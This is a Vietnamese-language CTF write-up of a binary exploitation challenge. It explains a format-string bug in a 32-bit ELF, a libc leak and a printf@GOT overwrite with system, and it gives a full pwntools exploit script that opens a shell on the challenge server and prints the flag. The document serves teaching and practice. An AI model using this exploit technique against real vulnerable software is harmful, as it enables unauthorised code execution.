



# [UMASS CTF 2026] WRITE UP BRICK-CITY-OFFICE-SPACE - BINARY EXPLOITATION
By: **0x-mpkane6** - **Nguyễn Minh Phúc Khang** - **ATTN2024**<br>
*Trường Đại học Công nghệ thông tin (UIT) - ĐHQG TP.HCM*

## 1. Mô tả challenge 
Challenge `Brick City Office Space` cung cấp cho người chơi một tệp nén chứa file thực thi `ELF 32-bit` cùng các thư viện libc.so.6 và ld-linux.so.2 để đồng bộ môi trường.

Chương trình mô phỏng một ứng dụng thiết kế kiến trúc, yêu cầu người dùng nhập các bản vẽ ASCII art để hoàn thiện tầng giữa của một tòa nhà chọc trời. Nhiệm vụ của chúng ta là tìm ra lỗ hổng trong quá trình xử lý chuỗi nhập vào để chiếm quyền điều khiển và đọc tệp tin `flag.txt` trên máy chủ.

## 2. Phân tích và khai thác
### Phân tích các lớp bảo vệ
Đầu tiên, mình tiến hành kiểm tra các chơ chế bảo vệ chương trình bẳng lệnh:
```bash
checksec --file BrickCityOfficeSpace
```


Kết quả cho thấy chương trình tắt hầu hết các lớp bảo vệ quan trọng: 
- No Canary
- No PIE
- No RELRO

Việc thiếu `Canary` giúp chúng ta không cần lo lắng về việc tràn stack bị phát hiện, trong khi `No PIE` đảm bảo các địa chỉ hàm là cố định. Quan trọng nhất, `No RELRO` mở ra khả năng ghi đè trực tiếp vào bảng `Global Offset Table (GOT)` để thay đổi chức năng của các hàm hệ thống.

### Xác định lỗ hỏng
Khi tiến hành decompile hàm `vuln()` trong **IDA Pro**, mình nhận thấy chương trình sử dụng `fgets(format, 592, stdin)` để đọc dữ liệu người dùng vào một buffer có kích thước đúng bằng 592 byte. Điều này có nghĩa là không tồn tại lỗi Buffer Overflow thông thường.
```c
puts("\nWould you like to redesign? (y/n)");
    fgets(format, 592, stdin);
    if ( format[0] != 121 && format[0] != 89 )
    {
      result = (char *)(unsigned __int8)format[0];
      if ( format[0] != 110 )
      {
        result = (char *)(unsigned __int8)format[0];
        if ( format[0] != 78 )
        {
          puts(
            "\n"
            "Well that wasn't a y or an n... clearly you don't know how to follow simple instructions. Maybe we should re"
            "consider your employment.\n");
          puts("This is what you said: \n");
          printf(format);
          puts("\n--- Session ending - you've bricked your last block ---");
          exit(0);
        }
      }
      return result;
    }
```

Tuy nhiên, ngay sau đó chương trình lại gọi hàm `printf(format)` với tham số trực tiếp là chuỗi do chúng ta nhập vào. Đây chính là lỗ hổng Format String kinh điển, cho phép chúng ta thực hiện việc đọc và ghi dữ liệu tại bất kỳ vị trí nào trong bộ nhớ.

### Tìm kiếm Offset và Leak địa chỉ Libc
Sau khi xác định được lỗ hỏng, ta cần xác định vị trí chuỗi nhập vào trên Stack, do đó mình tiến hành chạy chương trình và nhập vào một Format String: `AAAA.%p.%p.%p.%p.%p.%p.%p.%p`.



Quan sát thấy giá trị hex `0x41414141` xuất hiện ở vị trí thứ 4 sau chuỗi định dạng. Đồng thời, tại vị trí thứ 2 (`%2$p`), mmình leak được địa chỉ thực tế của `_IO_2_1_stdin_` trong bộ nhớ bằng GDB.
 ```bash
gef➤  info symbol 0xf7fab5c0
_IO_2_1_stdin_ in section .data of /lib/i386-linux-gnu/libc.so.6
 ```
Từ địa chỉ của `_IO_2_1_stdin_` vừa leak được, mình tiến hành xác định địa chỉ gốc (Base address) của `Libc`. Vì khoảng cách giữa các hàm trong cùng một phiên bản `Libc` là không đổi, mình sử dụng tệp tin `libc.so.6` đi kèm để tra cứu offset của symbol này. Công thức tính toán như sau:

$$Libc\_Base = 0xf7fab5c0 - Offset(\_IO\_2\_1\_stdin\_)$$

Sau khi có được `Libc_Base`, mình cộng thêm offset của hàm system (tìm thấy trong symbol table của libc) để lấy được địa chỉ thực thi của nó trong bộ nhớ.

### GOT Overwrite và chiếm Shell 
### GOT Overwrite
Vì tệp tin hoàn toàn không có bảo vệ `RELRO`, bảng `Global Offset Table (GOT)` là vùng nhớ có quyền ghi. Mục tiêu của mình là ghi đè địa chỉ của hàm `printf@GOT` bằng địa chỉ của hàm system đã tính toán trước đó.

Sử dụng công cụ `fmtstr_payload` với offset là `4`, script sẽ tự động tạo ra một chuỗi các ký tự định dạng %c và %n phức tạp để "bơm" địa chỉ mới vào bảng GOT. Sau bước này, bất kỳ lời gọi nào tới printf trong chương trình thực chất sẽ nhảy thẳng vào mã thực thi của hàm system.

```python
payload = fmtstr_payload(4, {elf.got['printf']: libc.symbols['system']})
```

### Chiếm Shell
Sau khi bảng GOT đã bị "nhiễm độc" ở lần nhập đầu tiên, mình gửi ký tự `'y'` để chương trình quay lại đầu vòng lặp.

Tại lần nhập thứ hai, mình không gửi format string nữa mà gửi chuỗi /bin/sh. Khi chương trình thực thi dòng lệnh:

printf(format); $\rightarrow$ Thực chất là: system("/bin/sh");

Do bảng GOT đã bị tráo đổi, hàm system sẽ nhận chuỗi `/bin/sh` làm tham số đầu tiên, từ đó mở ra Shell.

```python
io.sendlineafter(b'(y/n)', b'y')
io.sendlineafter(b'> ', payload)
```
Script khai thác hoàn chỉnh:

```python
from pwn import *

# Khởi tạo kết nối và load file
io = remote('brick-city-office-space.pwn.ctf.umasscybersec.org', 45001)
elf = ELF('./BrickCityOfficeSpace')
libc = ELF('./libc.so.6')

# 1. Leak Libc qua vị trí %2$p
io.sendlineafter(b'> ', b'AAAA.%2$p')
io.recvuntil(b'AAAA.')
libc.address = int(io.recvline(), 16) - libc.symbols['_IO_2_1_stdin_']

# 2. Ghi đè printf@GOT thành system (Offset 4)
payload = fmtstr_payload(4, {elf.got['printf']: libc.symbols['system']})
io.sendlineafter(b'(y/n)', b'y')
io.sendlineafter(b'> ', payload)

# 3. Gửi chuỗi /bin/sh để kích hoạt shell
io.sendlineafter(b'(y/n)', b'y')
io.sendlineafter(b'> ', b'/bin/sh')
io.interactive()
```



Sau khi đã vào được shell, mình tiến hành kiểm tra bằng lệnh `ls` và phát hiện tồn tại file `flag.txt` trên hệ thống.

Đọc `flag.txt` bằng lệnh `cat`, mình thu được flag: `UMASS{th3-f0rm4t_15-0ff-th3-ch4rt5}`.

